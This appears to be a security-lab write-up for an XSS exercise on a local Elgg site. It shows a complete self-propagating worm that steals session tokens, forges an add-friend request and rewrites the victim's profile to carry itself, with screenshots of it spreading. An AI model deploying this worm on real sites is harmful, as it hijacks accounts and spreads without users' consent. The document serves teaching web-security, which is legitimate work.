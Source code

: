 ## Task 6: Writing a Self-Propagating XSS Worm

**Objective:** Write an XSS worm to modify the visitor's profile when they view Samy's page.

**Steps:**
- Modify the code from Task 5 to include the worm code in the profile modification.
- Use the DOM approach to retrieve and propagate the worm code.
```HTML
<script id=worm>
        window.onload = function() {
            var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
            var jsCode = document.getElementById("worm").innerHTML;
            var tailTag = "</" + "script>";
        
            var descriptionContent = "Samy is my hero" + encodeURIComponent(headerTag + jsCode + tailTag);
        
            //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
            //and Security Token __elgg_token
            var userName = "&name=" + elgg.session.user.name;
            var guid = "&guid=" + elgg.session.user.guid;
            var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
            var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
        
            //Construct the HTTP request to add Samy as a friend.
            var addFriendURL = "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;
        
            var description = "&description=" + descriptionContent;
        
            var otherFields = "&accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2"
        
            //Construct the content of your url.
            var content = token + ts + userName + description + otherFields + guid;
        
            var samyGuid = 47;
        
            var editProfileURL = "http://www.xsslabelgg.com/action/profile/edit";
        
            if (elgg.session.user.guid != samyGuid) {
                var Ajax = null;
        
                //Create and send Ajax request to add friend
                Ajax = new XMLHttpRequest();
                Ajax.open("GET", addFriendURL, true);
                Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
                Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
                Ajax.send();
        
                //Create and send Ajax request to modify profile
                Ajax = new XMLHttpRequest();
                Ajax.open("POST", editProfileURL, true);
                Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
                Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
                Ajax.send(content);
            }
        }
    </script>
```

![Script Injection](images/T6/samyinject.png)
*Script Injection*

![Initial About Me description of Alice](images/T6/aliceinitial.png)
*Initial About Me description of Alice*

![Visiting Samy's profile](images/T6/samyview.png)
*Visiting Samy's profile*

![About Me of Alice changed after visiting & Samy is a friend now](images/T6/samyaddedalice.png)
*About Me of Alice changed after visiting & Samy is a friend now*

**Observation:** When a user views an infected profile, their profile is modified, and the worm code is added, causing further worm propagation.